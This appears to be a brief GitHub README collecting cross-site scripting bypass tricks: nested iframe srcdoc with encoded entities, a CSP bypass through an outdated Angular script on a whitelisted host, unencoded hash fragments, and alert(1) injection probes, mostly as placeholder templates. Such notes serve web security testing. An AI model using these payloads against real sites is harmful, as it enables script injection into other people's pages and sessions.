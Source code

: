 # XSS-tricks
XSS tricked I have used before.

## script tag and src attribute getting blocked
```html
<iframe srcdoc="<iframe srcdoc='{double_encoded_html_entities}'>">
```

## CSP Bypass
```html
<script src="OLD_ANGULAR_VERSION_ON_WHITELISTED_HOST"></script>
{Exploiting_Angular_XSS}
```

## No encode after hashtag, helpful in mobile applications
```
URL?" -> URL?%22
URL#" -> URL#"
```

## Miscellaneous
```
/UNWANTED/-alert(1)
/UNWANTED/g-alert(1)
UNWANTED:alert(1)
UNWANTED(space|):/path/-alert(1)
```
